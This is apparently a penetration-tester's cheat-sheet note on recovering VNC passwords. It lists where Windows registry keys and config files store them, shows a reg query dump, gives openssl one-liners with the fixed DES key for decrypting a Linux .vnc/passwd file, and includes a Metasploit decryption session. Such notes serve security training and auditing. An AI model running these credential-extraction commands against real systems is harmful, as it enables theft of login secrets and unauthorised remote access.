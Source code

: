 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#password-cracking
# Windows

Location paths for VNC passwords:

```
HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\vncserver
HKEY_CURRENT_USER\Software\TightVNC\Server
HKEY_LOCAL_USER\Software\TigerVNC\WinVNC4
C:\Program Files\UltraVNC\ultravnc.ini
```

Use Case: 

```
C:\Windows\system32>reg query HKLM\SOFTWARE\TightVNC\Server /s

HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC\Server
--- SNIP ---
    Password    REG_BINARY    D7A514D8C556AADE
    ControlPassword    REG_BINARY    1B8167BC0099C7DC
--- SNIP ---
```

# Linux

If you obtain access to a linux system that is running a vnc service, search through the users .vnc directory. In the .vnc directory you may find a passwd file. To decrypt the password file, run the following command: 

```
cat .vnc/passwd | openssl enc -des-cbc -nopad -nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d
```

```
echo -n "vnc-hash" | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d | hexdump -Cv
```

# Other ways to decrypt VNC Passwords

## Metasploit

```
$> msfconsole

msf5 > irb
[*] Starting IRB shell...
[*] You are in the "framework" object

>> fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
 => "\u0017Rk\u0006#NX\a"
>> require 'rex/proto/rfb'
 => true
>> Rex::Proto::RFB::Cipher.decrypt ["D7A514D8C556AADE"].pack('H*'), fixedkey
 => "Secure!\x00"
>> 
```


Source: 
- https://github.com/frizb/PasswordDecrypts